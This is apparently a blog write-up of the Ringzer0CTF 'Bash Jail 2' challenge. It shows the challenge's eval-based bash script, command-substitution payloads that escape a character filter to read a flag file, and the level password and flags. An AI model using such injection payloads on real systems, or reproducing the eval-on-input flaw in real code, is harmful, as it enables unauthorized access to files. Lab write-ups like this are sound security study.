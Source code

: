 ```yaml
---
layout: post
title: Ringzer0CTF Challenge 30 : Bash Jail 2
categories: [Write-Ups, Ringzer0CTF]
tags: [Ringzer0CTF, Jail Escaping]
featured-image:  ringzer0CTF/icon.png
featured-image-alt: ringzer0CTF
---
```


It's a write-up about the challenge : [Ringzer0CTF - Bash Jail 2](https://ringzer0ctf.com/challenges/30)

# Challenge 30 - Bash Jail 2

## 1. Challenge

After login into the level2 with this command : 
`ssh -l level2 -p 10219 challenges.ringzer0team.com`
and this password : FLAG-U96l4k6m72a051GgE5EN0rA85499172K

```
RingZer0 Team Online CTF

BASH Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge bash code:
-----------------------------

function check_space {
	if [[ $1 == *[bdks';''&'' ']* ]]
	then 	
    		return 0
	fi

	return 1
}

while :
do
	echo "Your input:"
	read input
	if check_space "$input" 
	then
		echo -e '\033[0;31mRestricted characters has been used\033[0m'
	else
		output="echo Your command is: $input"
		eval $output
	fi
done 

-----------------------------
Your input:
```

## 2. Solution

Some characters like ";" "&" "]" "b", "d" are not allowed because of the test with the function check_space.
This is why, we tried this : `$(</home/level2/flag.txt)` to read the flag.
The result was :
```
Your command is: FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P
```

To avoid the space, we can use the command substitution `<`.
So, we will have the same result with this command :
`$(cat<flag.txt)` or this one `$(<flag.txt)`

We can use ``` ` ``` instead of `$` also.

The flag is : **FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P**